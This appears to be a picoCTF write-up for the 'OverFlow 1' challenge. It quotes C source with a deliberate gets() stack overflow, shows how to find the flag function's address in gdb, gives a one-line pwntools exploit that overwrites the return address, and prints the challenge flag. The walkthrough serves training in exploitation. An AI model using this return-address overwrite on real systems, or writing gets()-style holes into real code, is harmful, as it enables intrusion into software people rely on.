 # OverFlow 1 

Points : 150

# Question

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server. [Source](vuln.c).

# Hint 

Take control that return address.
Make sure your address is in Little Endian.

# Solution

By examin the source code we can see that :

```C 
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {						<------- we have this flag function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];					<------- we get buffer size 64
  gets(buf);						<------- the program read our input using gets which is vulnerable to overflow

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();						<------- vuln get call
  return 0;
}
```

the program never call "flag" function so we need to make this happend !
as we know gets is vulnerable to buffer overflow , so if we overflow the stack and change the return adress to "flag" function address then she will get call and print the flag.

our payload need to look like this:

```print 'A'*(BUFFER_SIZE+REGISTERS_SIZE)+NEW_RETURN_ADDRESS```

first let's get "flag" function address using gdb

![](overflow1.png)

we can see that the address is "0x080485e6"
so now we can use python with pwn tools and run the exploit ```python -c "from pwn import *; print 'A'*(64+8)+p32(0x080485e6)" | ./vuln```

![](overflow2.png)


# Flag
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}

